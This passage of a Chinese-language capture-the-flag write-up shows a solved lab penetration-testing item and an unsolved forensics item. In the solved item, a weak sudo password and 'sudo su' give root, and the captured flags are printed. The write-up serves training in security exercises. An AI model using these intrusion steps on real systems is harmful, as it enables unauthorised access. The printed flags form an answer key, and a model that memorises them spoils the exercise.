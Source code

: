     admin@ubuntu:~$ ls
    flag.txt
    admin@ubuntu:~$ cat flag.txt
    cbf7a0ffec715232e38aa5b120994bcc
    ```
3. **flag{cbf7a0ffec715232e38aa5b120994bcc}**

### [10pts] 滲透測試-02
#### 題目
- 說明：
    - 請挑選此IP範圍(10.100.229.34 - 10.100.229.43)內的任何一台弱點主機，入侵後取得root家目錄下的flag檔案
- 答案格式：
    - flag{找到的flag}
 
#### 解法
1. 先執行 sudo -l 看看 `sudo` 指令能夠執行什麼權限
    ```
    admin@ubuntu:~$ sudo -l
    [sudo] password for admin: 123456
    Matching Defaults entries for admin on ubuntu:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User admin may run the following commands on ubuntu:
        (ALL) ALL
    ```
2. 發現 sudo 竟然可以執行所有指令，意味著可以直接使用 `sudo su` 提權
    ```
    admin@ubuntu:~$ sudo su
    root@ubuntu:/home/admin# cd /root
    root@ubuntu:~# ls
    flag.txt
    root@ubuntu:~# cat flag.txt
    566b701a1628043018227f28f3ef24d3
    ```
3. **flag{566b701a1628043018227f28f3ef24d3}**

## 數位鑑識
### [10pts] 數位鑑識-01 
#### 題目

- 說明：
    - 請找出惡意程式下載連結及常駐於系統的惡意程式
- 答案格式：
    flag{SHA1(惡意程式下載連結+惡意程式的雜湊值(SHA256))}
- 範例：
    ```
    SHA1(http://malware.ru+673ca3e002aa0991096c32f6c40f2afb2674ae353ac0e21f692c29c6369e9712)
    ```
- 檔案：`forensics.vmem`
    
#### 解法
???

